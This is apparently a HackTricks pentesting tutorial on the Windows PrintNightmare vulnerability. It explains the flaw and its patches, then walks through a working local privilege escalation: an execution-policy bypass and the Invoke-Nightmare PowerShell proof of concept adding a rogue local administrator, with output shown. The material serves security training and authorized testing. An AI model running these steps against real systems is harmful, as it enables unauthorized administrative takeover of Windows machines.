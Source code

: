 # PrintNightmare

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

**This page was copied from** [**https://academy.hackthebox.com/module/67/section/627**](https://academy.hackthebox.com/module/67/section/627)****

`CVE-2021-1675/CVE-2021-34527 PrintNightmare` is a flaw in [RpcAddPrinterDriver](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-rprn/f23a7519-1c77-4069-9ace-a6d8eae47c22) which is used to allow for remote printing and driver installation. \
This function is intended to give **users with the Windows privilege `SeLoadDriverPrivilege`** the ability to **add drivers** to a remote Print Spooler. This right is typically reserved for users in the built-in Administrators group and Print Operators who may have a legitimate need to install a printer driver on an end user's machine remotely.

The flaw allowed **any authenticated user to add a print driver** to a Windows system without having the privilege mentioned above, allowing an attacker full remote **code execution as SYSTEM** on any affected system. The flaw **affects every supported version of Windows**, and being that the **Print Spooler** runs by default on **Domain Controllers**, Windows 7 and 10, and is often enabled on Windows servers, this presents a massive attack surface, hence "nightmare."

Microsoft initially released a patch that did not fix the issue (and early guidance was to disable the Spooler service, which is not practical for many organizations) but released a second [patch](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) in July of 2021 along with guidance to check that specific registry settings are either set to `0` or not defined.&#x20;

Once this vulnerability was made public, PoC exploits were released rather quickly. **** [**This**](https://github.com/cube0x0/CVE-2021-1675) **version** by [@cube0x0](https://twitter.com/cube0x0) can be used to **execute a malicious DLL** remotely or locally using a modified version of Impacket. The repo also contains a **C# implementation**.\
This **** [**PowerShell implementation**](https://github.com/calebstewart/CVE-2021-1675) **** can be used for quick local privilege escalation. By **default**, this script **adds a new local admin user**, but we can also supply a custom DLL to obtain a reverse shell or similar if adding a local admin user is not in scope.

### **Checking for Spooler Service**

We can quickly check if the Spooler service is running with the following command. If it is not running, we will receive a "path does not exist" error.

```
PS C:\htb> ls \\localhost\pipe\spoolss


    Directory: \\localhost\pipe


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
                                                  spoolss
```

### **Adding Local Admin with PrintNightmare PowerShell PoC**

First start by [bypassing](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/) the execution policy on the target host:

```
PS C:\htb> Set-ExecutionPolicy Bypass -Scope Process

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
https:/go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): A
```

Now we can import the PowerShell script and use it to add a new local admin user.

```powershell
PS C:\htb> Import-Module .\CVE-2021-1675.ps1
PS C:\htb> Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"

[+] created payload at C:\Users\htb-student\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_am
d64_ce3301b66255a0fb\Amd64\mxdwdrv.dll"
[+] added user hacker as local administrator
[+] deleting payload from C:\Users\htb-student\AppData\Local\Temp\nightmare.dll
```

### **Confirming New Admin User**

If all went to plan, we will have a new local admin user under our control. Adding a user is "noisy," We would not want to do this on an engagement where stealth is a consideration. Furthermore, we would want to check with our client to ensure account creation is in scope for the assessment.

```
PS C:\htb> net user hacker

User name                    hacker
Full Name                    hacker
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            ?8/?9/?2021 12:12:01 PM
Password expires             Never
Password changeable          ?8/?9/?2021 12:12:01 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       
Global Group memberships     *None                 
The command completed successfully.
```

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
